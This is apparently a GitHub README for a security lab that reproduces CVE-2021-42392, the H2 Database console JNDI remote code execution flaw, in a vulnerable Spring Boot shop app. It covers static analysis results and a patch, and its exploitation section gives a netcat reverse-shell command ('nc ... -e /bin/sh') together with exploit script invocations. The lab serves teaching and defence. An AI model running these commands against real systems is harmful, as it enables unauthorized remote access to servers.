

# CVE-2021-42392

<font size=3>

1. [Contents](#Contents)
    - [VulnerableApplication Directory](#vulnerableapplication-directory)
    - [AttackEnviroment Directory](#attackenviroment-directory)
2. [The CVE](#the-cve)
    - [Details](#details)
    - [Root Cause of the Vulnerability](#root-cause-of-the-vulnerability)
    - [Potential Attack Scenario](#potential-attack-scenario)
3. [The Vulnerable Project](#the-vulnerable-project)
    - [Description](#description)
    - [Build Instructions](#build-instructions)
    - [Static Analysis Results](#static-analysis-results)
        - [Spotbugs](#spotbugs)
        - [SonarQube](#sonarqube)
        - [Vulnerability Analysis](#vulnerability-analysis)
        - [Security Hotspots Analysis](#security-hotspots-analysis)
    - [CVE Vulnerabilities](#security-hotspots-analysis)
4. [Exploitation of the Vulnerability](#exploitation-of-the-vulnerability)
    - [Running the Application](#running-the-application)
    - [Running the Exploit](#running-the-exploit)
5. [Possible Security Patch](#possible-security-patch)

</font>
</br>

## **Contents**
### **VulnerableApplication Directory**
This directory contains two subdirectories:
- **SeletShop**: contains the SeletShop project that can be built from scratch
- **Docker**: contains a series of scripts and configuration files that will be used to properly run the vulnerable application inside a docker container.

Additional instructions on how to run the application in a containerized enviroment will be provided in this **README** and in the one that can be found inside the **Docker** folder.

### **AttackEnviroment Directory**
This folder contains a **JAR** file and a **python script** that will be used to exploit the VulnerableApplication. Detailed instructions on how to run the attack will be provided both in the [Running the Exploit](#running-the-exploit) section and in the **README** file inside this folder.


## **The CVE**
### **Details**
In this section a detailed description of CVE-2021-42392 will be provided, the following is a first description provided by the NIST:

> The org.h2.util.JdbcUtils.getConnection method of the H2 database takes as parameters the class name of the driver and URL of the database. An attacker may pass a JNDI driver name and a URL leading to a LDAP or RMI servers, causing remote code execution. This can be exploited through various attack vectors, most notably through the H2 Console which leads to unauthenticated remote code execution.

The CVE refers to an **H2 Database** vulnerability that allows an attacker to obtain **Unauthenticated Remote Code Execution** by exploiting the **Java Naming and Directory Interface**; the latter can be described as a Java API for directory services that allows Java clients to obtain data and objects by their name from a Server (i.e. LDAP, RMI).

H2 Database on the other hand is a lightweight in-memory RDBMS written in Java. This makes it a popular data storage solution for various projects from web platforms like Spring Boot to IoT platforms.

This H2 Database issue has the same root cause as **Log4Shell** vulnerability in Apache Log4j (JNDI Remote Class Loading), however it shouldn't be as widespread as Log4Shell due to the following factors:

1. Unlike Log4Shell, this vulnerability typically affects the server that initially processed a malicious request sent by an attacker; this leads to a quick discovery of the vulnerable servers in an enterprise enviroment.

2. H2 Database Console by default usually listens only to localhost connections, though this setting can be easily changed allowing the console to listen for remote connections; As a matter of fact some third-party tools (e.g. JHipster) use H2 Database with H2 Console enabled and reachable from the Internet by default, thus making it suitable to this specific attack.

3. Many vendors may be using H2 Database withouth having enabled H2 Console. Although there are other attack vectors to exploit, these usually are context-dependant and less likely to be exposed to remote attackers.

### **Root Cause of the Vulnerability**
The root cause of this vulnerability is that H2 Database framework passes **unfiltered attacker-controlled URLs** to the javax.naming.Context.lookup function, which leads to Java code injection.

In the following picture it is shown a piece of the **getConnection(String driver, String url, Properties prop)** function, within **org.h2.utils.JdbcUtils**; it is trivial to check that when the driver passed as argument of the **getConnection** function is assignable to the **javax.naming.Context** class, the lookup method will be invoked on a potentially malicious URL provided by the user.


### **Potential Attack Scenario**
Here a possible attack scenario that could easily impact a Spring Boot application using H2 Database is presented; the requirements for the attack to be feasible are the following ones:

<ul id="criteria">
<li>
1. The vulnerable application runs a version of H2 Database lower or equal than 2.0.204
</li>
</br>
<li>
2. H2 Console is enabled and is exposed to the Internet
</br></br>

If this conditions subsist, it will be possible for an attacker to provide a specifically crafted link that **forces the H2 console to download a malicious Java Class from a remote server** controlled by the threat actor.
This malicious Java Class will be then automatically executed giving to the attacker the capability of **executing remote commands on the server**.


Here it is shown the attack flow as described by the researchers that discovered the vulnerability at [JFrog](https://jfrog.com/blog/the-jndi-strikes-back-unauthenticated-rce-in-h2-database-console/)

</br>


</br></br>


## **The Vulnerable Project**
### **Description**
The vulnerable project I've identified is called [SeletShop](https://github.com/JangHyeonJun2/SeletShop) and it is a simple open source project that allows to view a vast amount of products and to put an alert on their price. In order to search for products, the platform relies on a korean search engine called [Naver](https://naver.com); products matching the search criteria will be automatically fetched from the latter website and shown to the user. Before searching and selecting products it is necessary to perform authentication, for this purpose an account can be easily created.

</br>

**Signup Page**
</br>



</br></br>

**Search Page**
</br>


</br></br>

### **Build Instructions**
The project can be built from scratch by following these steps:

1. Open with **IntelliJ** the project **SeletShop** located in **VulnerableApplication** folder (In IntelliJ: File > Open).

2. Go to **File > Project Structure**, **Project** tab and make sure that the **JDK version is 11.x.x**. To build the project I've used **JDK 11.0.17** with **Language Level 8 - Lambdas, type annotations etc.**

</br>


</br></br>

3. Go to **File > Settings**, expand **Build, Execution, Deployment** tab on the left, expand **Build Tools** tab and select **Gradle**; make sure that **Gradle JVM** uses **SDK version 11**

</br>


</br></br>

4. Synchronize Gradle dependencies by expanding the Gradle tab on the right and clicking the **Reload All Gradle Projects** arrows and execute the **build** task. 

</br>


</br></br>

5. Once the task is finished it will be possible to retrieve the generated **SeletShop-0.0.1-SNAPSHOT.jar** under **build > libs** folder, the latter can be executed with the command **java -jar /folder-of-the-jar/SeletShop-0.0.1-SNAPSHOT.jar**.

</br>

In case of difficulties building the project, either the **.jar** file I've provided or the **bash startup script** that executes the application in a **Docker Container**, can be used to successfully run the vulnerable enviroment; both can be found inside **VulnerableApplication > Docker** folder, additional instructions can be obtained by looking at the **README** file within the latter directory.

### **Static Analysis Results**
Static Code Analysis on this project was performed using two different tools: the first one is **Spotbugs** which is integrated as a plugin within IntelliJ IDE, the second one is **SonarQube** which was deployed locally as a Docker Container. SonarQube analyses can be launched against projects by using a specific Maven or Gradle string provided by the tool itself; once the analysis is completed results can be seen in a Web Application made available by SonarQube and accessible at **localhost:9000**


#### **Spotbugs**
Inside the project SpotBugs only detected **two possible bugs** of medium severity:

1. **May expose internal representation by incorporating reference to mutable object**

    In the picture it can be seen that the public constructor **UserDetailsImpl** stores in the class field **this.user** a reference to an externally mutable object (**user**), this may be dangerous due to the fact that changing the content of **user** variable, would automatically change also the field **this.user** stored within the UserDetailsImpl object. However this bug is not critical and can easily be solved by saving in **this.user** a copy of the externally received parameter **user**.

</br>


</br></br>

2. **May expose internal representation by returning reference to mutable object**

    In a similar way as in the previous bug, here **getUser()** method is returning a reference to a mutable object. Once again the bug is not critical and can be solved by returning a copy of the **user** field.


</br>


</br></br></br>

#### **SonarQube**
In the following picture it is shown a overview of the static code analysis results obtained with SonarQube


</br>

Neglecting the Code Smells that are not important for our analysis, it can be seen how 1 **Vulnerability** and 3 **Security Hotspots** were detected; **Security Hotspots** is the way in which SonarQube flags code that may reveal or not a vulnerability, but requires manual review by the user.

</br>

#### **Vulnerability Analysis**

The vulnerability flagged by SonarQube is a string containing a password in plaintext; although usually this is a problem to deal with immediately, in this case the credentials are only used by the application for testing purposes (Add a test User inside the database).


</br></br>

#### **Security Hotspots Analysis**
Among the 3 Security Hotspots identified by SonarQube the following two are the most interesting ones:

1. **Detection of an Hardcoded TOKEN Secret**

</br>


From the picture above it can be seen how an **ADMIN_TOKEN** is hardcoded within the Class **UserService**, by further analysing the code I've discovered that that specific token is the one requested in the Signup Page when registering a new account with admin privileges.

</br><br/>


By providing the **ADMIN_TOKEN** as shown in this last image, it is possible to register an account with admin privileges.

</br>

2. **Potential Cross-Site Request Forgery (CSRF)**

    Another Security Hotspot detected by SonarQube regards the explicit **deactivation of CSRF protection**, this latter mechanism is provided by **Spring Security** and allows to **prevent Cross-Site Request Forgery attacks** by embedding a specific CSRF token that must be submitted to the server on every HTTP request that modifies the state.

    Not having this protection in place could allow an attacker to provide a link to a specifically crafted page, potentially triggering a Cross-Site Request Forgery.

</br>


### **CVE Vulnerabilities**
Although the previous analyses revealed some security flaws, we can notice that there is no mention to CVE-2021-42392. However since the application presents all the [criteria](#criteria) to be vulnerable (but the exposure to the internet of the h2-console that was added for demonstration purposes), we may try to exploit this H2 Databases vulnerability.

## **Exploitation of the Vulnerability**
In this section there will be a comprehensive explanation of all the steps that need to be followed to exploit CVE-2021-42392 vulnerability in [SeletShop](#the-vulnerable-project) project.

### **Running the Application**
Let's start by deploying the vulnerable application in a dockerized enviroment:

</br>

1. Navigate to **VulnerableApplication/Docker** folder
2. Execute **start_vulnerable_application.sh** script in order to deploy the application.

</br>

This last script will automatically pull an image from Docker Hub and execute the vulnerable application in a container that exposes port 8080. Once the procedure has completed, the vulnerable application will be reachable at **localhost:8080**.

In alternative if it is not wanted to use Docker, a JAR file of the application is available in the same **Docker** directory; execute it with the command **java -jar VulnerableApplication.jar**.

</br>

### **Running the Exploit**
In order to successfully exploit the vulnerable application and obtain a remote shell it is needed to follow these steps:

1. Navigate to **AttackEnviroment** folder, here it is possible to find **exploit.py** python script, **JNDI-InjectionExploit.jar** JAR file and **listener.sh** bash script

2. Execute **JNDI-InjectionExploit.jar** with the following command:
```
   java -jar JNDI-InjectionExploit.jar -C "nc local-IP-of-the-attacker 9001 -e /bin/sh" -A "local-IP-of-the-attacker"
```

Before executing it, replace **local-IP-of-the-attacker** with the local IP of the machine that is performing the attack, Example:

```
java -jar JNDI-InjectionExploit.jar -C "nc 192.168.1.15 9001 -e /bin/sh" -A "192.168.1.15"
```

This command will start three different type of servers on the local machine (RMI, LDAP, JETTY); each of these servers when receives a connection on a specific endpoint, will download on the client a specific Java class (i.e. **PAYLOAD**) that will execute the code we have specified.

The **-C** flag defines which command will be executed by the Java class on the remote machine, in this case the remote machine will first connect to our local machine through **netcat** (*nc "ip" "port"*) and then execute a shell (*-e /bin/sh*)

**-A** flag specifies the address of the servers (e.g. the IP of the attacker machine)

</br>


</br></br>

3. After having obtained an output like the one shown in the picture, **copy** the **rmi://** link that appears under the string 
    >Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):

    </br> 

    In this case **rmi://192.168.1.15:1099/rh6aau**

    </br>


4. In another terminal execute the **listener.sh** script, this bash script will use **netcat** to listen for incoming connections on port **9001**. Here is where we will be able to interact with a shell on the remote machine.

5. If all the previous steps have been performed correctly, it is now possible to finalize our attack by executing the python script **exploit.py**.
This script will automatically connect to the **H2 Console** of the vulnerable application (**/h2-console** endpoint) and submit a series of parameters through a POST request. </br></br>
Among these parameters there is one that has to be provided as a command line argument when launching the script and it's value will be the one of the link we copied in **step 3**</br></br>
The command to execute the script is the following one:</br>
    ```
    python3 exploit.py "link-copied-at-step-3"
    ```
    </br>
    Example:

    ```
    python3 exploit.py rmi://192.168.1.15:1099/rh6aau
    ```

If everything worked as expected, a remote connection will be received in the **netcat listener** and it will be possible to issue commands that will be executed on the remote server.

The output of the python exploit:
</br>


</br></br></br>

Our Netcat Listener that allows us to execute commands on the server
</br>


</br></br></br>

The connection received by the RMI Server
</br>


## **Possible Security Patch**
To solve this problem it is necessary to update **H2 Database** to a version **higher than 2.0.204** and to make sure that **H2 Console is not accessible to anyone**.

```
spring.h2.console.enabled=false
spring.h2.console.settings.web-allow-others=false
```

With these two parameters that may be placed inside **application.properties** or **application.yaml** (if using yaml configuration), we are indeed saying that H2 console is not enabled and of course since it is not enabled, it won't be also accessible from a remote host.